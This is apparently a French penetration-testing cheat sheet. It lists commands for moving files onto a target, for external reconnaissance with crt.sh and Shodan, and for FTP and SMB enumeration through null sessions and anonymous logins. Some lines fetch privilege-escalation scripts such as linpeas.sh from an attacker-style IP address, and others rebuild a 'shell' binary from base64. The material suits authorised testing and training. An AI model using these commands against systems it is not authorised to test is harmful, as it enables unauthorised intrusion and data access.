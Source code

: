 ### Transfert de Fichiers

| **Commande**                                                          | **Description**                                                |
|----------------------------------------------------------------------|--------------------------------------------------------------|
| `python3 -m http.server 8000`                                          | Démarrer un serveur web local                                 |
| `wget http://10.10.14.1:8000/linpeas.sh`                              | Télécharger un fichier sur le serveur distant                 |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`                | Télécharger avec curl                                         |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh`                      | Transférer un fichier avec `scp`                             |
| `base64 shell -w 0`                                                   | Convertir un fichier en `base64`                              |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell`                    | Convertir de `base64` vers le format original                 |
| `md5sum shell`                                                        | Vérifier le checksum md5                                      |

## Énumération d'Infrastructure

### Reconnaissance Externe

| **Commande**                                                         | **Description**                                    |
|---------------------------------------------------------------------|----------------------------------------------------|
| `curl -s https://crt.sh\?q\=<domaine-cible>\&output\=json \| jq .`   | Transparence des certificats                        |
| `for i in $(cat ip-addresses.txt);do shodan host $i;done`            | Scanner des IPs avec Shodan                         |

### Services Spécifiques

#### FTP

| **Commande**                                                          | **Description**                                    |
|----------------------------------------------------------------------|--------------------------------------------------|
| `ftp <FQDN/IP>`                                                        | Interagir avec le service FTP                      |
| `nc -nv <FQDN/IP> 21`                                                 | Connexion FTP avec netcat                          |
| `telnet <FQDN/IP> 21`                                                 | Connexion FTP avec telnet                          |
| `openssl s_client -connect <FQDN/IP>:21 -starttls ftp`               | Connexion FTP chiffrée                             |
| `wget -m --no-passive ftp://anonymous:anonymous@<cible>`              | Télécharger tous les fichiers disponibles          |

#### SMB

| **Commande**                                                          | **Description**                                    |
|----------------------------------------------------------------------|--------------------------------------------------|
| `smbclient -N -L //<FQDN/IP>`                                         | Session null SMB                                   |
| `smbclient //<FQDN/IP>/<partage>`                                     | Connexion à un partage SMB                         |
| `rpcclient -U "" <FQDN/IP>`                                           | Interaction RPC                                    |
| `samrdump.py <FQDN/IP>`                                               | Énumération des utilisateurs avec Impacket         |
| `smbmap -H <FQDN/IP>`                                                 | Énumération des partages SMB                       |
| `crackmapexec smb <FQDN/IP> --shares -u '' -p ''`                    | Énumération SMB avec session null                  |
| `enum4linux-ng.py <FQDN/IP> -A`                                       | Énumération SMB complète                           |
